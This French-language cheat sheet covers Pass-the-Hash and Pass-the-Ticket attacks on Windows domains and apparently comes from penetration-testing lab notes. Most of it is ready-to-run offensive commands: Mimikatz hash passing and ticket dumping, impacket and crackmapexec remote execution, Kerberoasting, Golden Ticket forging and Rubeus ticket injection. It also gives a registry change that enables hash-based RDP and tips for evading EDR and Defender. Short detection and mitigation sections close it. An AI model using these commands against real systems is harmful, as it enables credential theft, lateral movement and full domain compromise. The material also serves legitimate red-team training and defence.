

## Pass the Hash (PtH)

### Overview
**PtH** permet l'authentification via des hashs **NTLM** sans nécessiter le mot de passe en clair.

### Prerequisites
- Accès administrateur requis pour extraire les hashs
- Sources de hashs :
    - **SAM** (machine locale)
    - **NTDS.dit** (Domain Controller)
    - **LSASS** (mémoire vive)

> [!danger]
> L'accès à **LSASS** nécessite des privilèges **SYSTEM** ou **Administrateur**.

### Windows Tools

#### Mimikatz
```cmd
privilege::debug
sekurlsa::pth /user:<USERNAME> /rc4:<NTLM_HASH> /domain:<DOMAIN> /run:<COMMAND>
```

```cmd
sekurlsa::pth /user:julio /rc4:64F12CDD... /domain:inlanefreight.htb /run:cmd.exe
```

#### Invoke-TheHash
```powershell
Invoke-SMBExec -Target <IP> -Domain <DOMAIN> -Username <USER> -Hash <NTLM> -Command "<CMD>"
Invoke-WMIExec -Target <IP> -Domain <DOMAIN> -Username <USER> -Hash <NTLM> -Command "<CMD>"
```

### Linux Tools

#### Impacket
```bash
impacket-psexec <user>@<ip> -hashes :<NTLM>
```

#### Evil-WinRM
```bash
evil-winrm -i <ip> -u <user> -H <NTLM_HASH>
```

#### CrackMapExec (netexec)
```bash
crackmapexec smb <ip|range> -u <user> -H <NTLM_HASH>
crackmapexec smb <ip> -u <user> -H <NTLM> -x "whoami"
crackmapexec smb <range> -u <user> -H <NTLM> --local-auth
```

#### xfreerdp
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
```bash
xfreerdp /v:<ip> /u:<user> /pth:<NTLM_HASH>
```

### Registry Key Considerations

| Key | Path | Description |
| :--- | :--- | :--- |
| DisableRestrictedAdmin | HKLM\System\CurrentControlSet\Control\Lsa | Active PtH pour RDP |
| LocalAccountTokenFilterPolicy | HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System | Contrôle l'accès admin distant |
| FilterAdministratorToken | HKLM...\Lsa | Applique UAC au compte RID-500 |

---

## Pass the Ticket (PtT)

### Overview
Utilisation de tickets **Kerberos** volés (**TGT** ou **TGS**) pour s'authentifier.

### Ticket Types
- **TGT** (Ticket Granting Ticket) : Permet de demander des **TGS**.
- **TGS** (Ticket Granting Service) : Permet l'accès à un service spécifique.

### Détails sur l'abus de Kerberoasting/AS-REP Roasting
Le **Kerberoasting** consiste à demander un TGS pour un service possédant un SPN (Service Principal Name) et à cracker le hash hors-ligne. L'**AS-REP Roasting** cible les comptes sans pré-authentification Kerberos requise.

```bash
# Kerberoasting avec Impacket
impacket-GetUserSPNs -request -dc-ip <IP> <DOMAIN>/<USER>:<PASS>

# AS-REP Roasting avec Impacket
impacket-GetNPUsers <DOMAIN>/ -usersfile users.txt -format hashcat -outputfile hashes.asreproast
```

### Détails sur le Golden/Silver Ticket
- **Golden Ticket** : TGT forgé à partir du hash NTLM du compte `krbtgt`. Permet l'accès total au domaine.
- **Silver Ticket** : TGS forgé pour un service spécifique utilisant le hash NTLM du compte machine cible.

```powershell
# Création Golden Ticket (Mimikatz)
kerberos::golden /domain:<DOMAIN> /sid:<SID> /user:<USER> /krbtgt:<KRBTGT_HASH> /ptt
```

### Windows Tools

#### Export Kerberos Tickets
```powershell
privilege::debug
sekurlsa::tickets /export
```
```powershell
Rubeus.exe dump /nowrap
```

#### OverPass-the-Hash
```powershell
mimikatz # sekurlsa::ekeys
sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:NTLM_HASH
```
```powershell
Rubeus.exe asktgt /domain:DOMAIN /user:USERNAME /aes256:HASH /nowrap /ptt
```

#### Import Ticket
```powershell
Rubeus.exe ptt /ticket:C:\path\to\ticket.kirbi
kerberos::ptt "C:\path\to\ticket.kirbi"
```

> [!warning]
> **Rubeus** et **Mimikatz** sont hautement détectables par les solutions EDR/AV.

> [!tip]
> Utiliser **createnetonly** avec **Rubeus** pour isoler l'injection de ticket.

### Techniques de contournement de l'EDR/Defender lors de l'injection en mémoire
Pour éviter la détection lors de l'accès à LSASS ou l'injection de tickets, privilégiez :
- L'utilisation de **bypasses AMSI** (ex: patching en mémoire).
- Le chargement de bibliothèques via **Reflective DLL Injection**.
- L'utilisation de **syscalls directs** pour éviter les hooks des EDR sur les API Windows (`ReadProcessMemory`, `OpenProcess`).

### Linux Tools

#### Kerberos Storage
- `/tmp/krb5cc_<UID>`
- `$KRB5CCNAME`

#### Keytab/Ccache Usage
```bash
kinit username@REALM -k -t /path/to/file.keytab
export KRB5CCNAME=/path/to/krb5cc_<uid>
```

#### Impacket/Evil-WinRM
```bash
smbclient //dc01/share -k -c 'ls'
proxychains impacket-wmiexec dc01 -k -no-pass
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

#### Linikatz
```bash
sudo ./linikatz.sh
```

> [!tip]
> Toujours vérifier la validité temporelle des tickets avec **klist**.

---

## Analyse des logs d'événements (Event IDs) pour la détection
La surveillance des logs est cruciale pour identifier les tentatives d'exploitation :

| Event ID | Description |
| :--- | :--- |
| 4624 | Type d'ouverture de session (3 = Réseau, 9 = NewCredentials/PtH) |
| 4672 | Attributions de privilèges spéciaux (souvent associé à Mimikatz) |
| 4768 | Demande de TGT (Kerberos) |
| 4769 | Demande de TGS (Kerberoasting si chiffrement RC4) |
| 4771 | Échec de pré-authentification Kerberos (AS-REP Roasting) |

---

## Mitigations
- Déploiement de **LAPS**
- Désactivation de **NTLM**
- Activation de **Credential Guard**
- Surveillance des logs pour **PsExec**, **WinRM** et accès **LSASS**

*Sujets liés : **Kerberos Attacks**, **Credential Dumping**, **NTLM Relay**, **Token Manipulation***